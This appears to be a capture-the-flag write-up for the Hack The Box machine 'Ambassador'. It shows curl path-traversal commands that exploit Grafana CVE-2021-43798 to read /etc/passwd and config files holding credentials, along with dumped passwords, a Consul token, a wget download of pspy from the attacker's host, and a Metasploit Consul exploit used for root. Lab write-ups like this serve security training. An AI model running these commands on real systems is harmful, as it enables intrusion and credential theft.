

# [Ambassador](https://app.hackthebox.com/machines/Ambassador)


```bash
nmap -p- --min-rate 10000 10.10.11.183 -Pn
```


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,3000,3306 10.10.11.183 -Pn 
```

put image here.


I access to port `3000`, that's `Grafana` application.


Let's look at version of `Grafana` is `v8.2.0`.

I found exploit which is [CVE-2021-43798](https://www.exploit-db.com/exploits/50581).

So this vulnerability is `Arbitrary File Read`, that's why we read sensitive files via this exploit

I can do this manually , I mean using `curl` command as below.
```bash
curl --path-as-is curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
```

**Note:** I need to use `--path-as-is` command as because `curl` cannot delete `../` payloads from my URL.


From [documentation](https://grafana.com/docs/grafana/latest/setup-grafana/configure-grafana/) of `Grafana`, I see that I need to read config file called `/etc/grafana/grafana.ini` for `Grafana`.

```bash
curl --path-as-is curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini
```


I take `admin` user credentials from this file.


admin: messageInABottle685427

I login into `Grafana` via this credentials and it worked.


On `Grafana` , I see that `MySQL` is running, that's why I need to read this `mysql.yaml` file by exploiting `Arbitrary File Read` vulnerability of `Grafana`.


```bash
curl --path-as-is curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/provisioning/datasources/mysql.yaml
```


That's `MySQL` credentials, I got already.

grafana: dontStandSoCloseToMe63221!


Let's login into `remote` MySQL database via `mysql` command.
```bash
mysql -h 10.10.11.183 -u grafana
```


I dump credentials from `whackywidget` database and `users` table from this database.


developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==

This password hash is `base64` encoded, let's crack this via `base64` command.


developer: anEnglishManInNewYork027468


user.txt


For `Privilege Escalation`, let's upload `pspy64` into our target machine.

First, we need to open http.server.
```bash
python3 -m http.server --bind 10.10.14.9 8080
```


Then, we need to download this binary via `wget` command.
```bash
wget http://10.10.14.9:8080/pspy64
```


I see that there is `consul` running, it looks like tricky for me, let's search privesc tricks for this.


I also looked at `whackywidget` application's directory and try to do research for `.git` folder.


Let's look at back commits via `git log` command.
```bash
git log --name-only --oneline
```


Let's go to `c982db8` commit via `git checkout` command.
```bash
git checkout c982db8
```

But it doesn't work, let's do `git show` command to see what's new added or deleted.
```bash
git show c982db8
```


I can see `X-Consul-Token` which is `hard-coded`.

ACL_Token: bb03b43b-1d81-d62b-24b5-39540ee469b5    


If I run `netstat -ntpl` command, I can see port `8500` which is `Consul API`.




I found exploit on `msfconsole` called `exploit/multi/misc/consul_service_exec`.


First, I need to create tunnel between target and my machine, for this, I will use `ssh` command to create `Local Port Forwarding` as below.
```bash
ssh -L 8500:localhost:8500 developer@10.10.11.183
```


Let's use this exploit on `msfconsole`.


root.txt

